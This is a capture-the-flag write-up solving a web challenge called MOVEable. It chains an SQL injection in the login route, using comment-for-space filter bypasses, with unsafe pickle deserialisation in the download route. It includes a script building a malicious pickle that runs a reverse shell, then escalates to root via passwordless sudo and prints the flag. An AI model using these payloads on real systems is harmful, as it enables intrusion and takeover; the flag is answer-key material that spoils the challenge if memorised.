 # MOVEable

Difficaulty: `Medium`  
Author: `@JohnHammond`  
Category: `Web`  
Points: `376`

## Description

Ever wanted to move your files? You know, like with a fancy web based GUI instead of just FTP or something?

Well now you can, with our super secure app, MOVEable!

Escalate your privileges and find the flag.

### Attachments

[app.zip](./attachments/app.zip)

## Solution

Luckily, we have the source code of this challenge. so, we can try to exploring the source code to find if there is any vulnerability.

### Enumeration

For this challenge, I found **2** vulnerabilities in the source code.

1. **SQL Injection**  
   We can see that there is a SQL Injection vulnerability located in **login route**.
   ```python
    sql = f"SELECT * FROM users WHERE username='{username}' AND password='{password}'"
   ```
2. **Remote Code Execution**  
   We can see that code using [pickle.load](https://docs.python.org/3/library/pickle.html) to unpack the data which is
   vulnerable to execute arbitrary code during unpacking. located in **download route**
   ```python
    file_blob = pickle.loads(base64.b64decode(file_data[0]))
   ```

With this information, we know that we can exploit following this steps:

1. Inject malicious SQL statement includes:  
   To create fake active session

   ```
   \;INSERT/**/INTO/**/activesessions/**/VALUES/**/(\foo\,\foo\,\foo\);--
   ```

   To insert reverse shell payload to database

   ```
   \;INSERT/**/INTO/**/files/**/VALUES/**/(\payload\,\<data>\,\foo\);--
   ```

2. Request **GET /downloads/payload/foo** to invoke `pickle.load` function and the payload will be executed.
3. Get reverse shell connection and escalate privilege to get the flag.

**_Input Filter Bypass Breakdown_**

`/**/` used instead of whitespace.  
`\` used to escape the single quote.

### Prepare the payload

Script used to create pickle payload  
Ref: [
Exploiting Python pickles ](https://davidhamann.de/2020/04/05/exploiting-python-pickle/)

```python
import os
import pickle
import base64

# Using msfvenom to generate reverse shell payload
# msfvenom -p cmd/unix/reverse_python LHOST=<host> LPORT=<port> R
command = "python3 -c \"exec(__import__('zlib').decompress(__import__('base64').b64decode(__import__('codecs').getencoder('utf-8')('<reverse_shell_payload>')[0])))\""

class rce(object):
    def __reduce__(self):
        return (os.system, (command,))

print(base64.b64encode(pickle.dumps(rce())))
```

### Exploit

From our enumeration and payload preparation, we will start exploit with steps that I have mentioned.

Perform SQL Injection to create fake active session and create malicious file in database.

![Burp](./images/burp.png)

Setup reverse shell listener.

![Listener](./images/listener.png)

Execute pickle.load by request **GET /downloads/payload/foo**

![Execute](./images/execute.png)

Reverse shell listener catched the connection. To perform privilege escalation, we can perform privilege escalation by simply try to run `sudo -l` to see if we can run any command as root.  
In this case, current user is in sudoers list and can run any command as root via `sudo` without password.

![Solved](./images/solved.png)

## Flag

```txt
flag{ac53cd7aa8a2d1b2340a6eb4a356709e}
```

